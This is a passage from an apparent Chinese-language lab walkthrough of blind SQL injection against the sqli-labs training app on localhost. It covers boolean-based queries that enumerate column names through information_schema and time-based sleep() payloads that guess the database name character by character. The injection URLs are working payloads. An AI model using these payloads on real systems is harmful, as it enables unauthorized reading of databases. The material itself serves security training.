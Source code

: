 ### 判断字段的总数

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and (select count(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='emails' and table_schema='security')=2--+`

得到第一张表的字段总数为2

![](https://img.yatjay.top/md/202203251648302.png)

### 判断第一列列名长度

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and (select length(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='emails' and table_schema='security' limit 0,1)=2--+`

得到security数据库的emails表第一列的列名长度为`2`

![](https://img.yatjay.top/md/202203251648909.png)

### 判断第一列列名字符

`http://localhost/pentest/sqlilabs/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1))=105--+`

说明第一列列名第一个字符是`i`

![](https://img.yatjay.top/md/202203251648311.png)

依次得到第一列列名为`id`，第二列列名猜解同理

### 查询指定数据

略

## sqlilabs-less2注入测试(延时盲注)

使用延时盲注方法猜解sqlilabs-less2中的数据库名、表名、列名等信息

### 猜解数据库名长度

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and sleep(if(length(database())=8,5,0))--+`

延时5秒显示完毕，说明数据库名长度为8

![](https://img.yatjay.top/md/202203251648841.png)

### 猜解数据库名

#### 猜解数据库名第1个字符

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and sleep(if((mid(database(),1,1)='s'),5,0))--+`

延时5秒后显示完毕，说明数据库名首字母为s

![](https://img.yatjay.top/md/202203251649836.png)
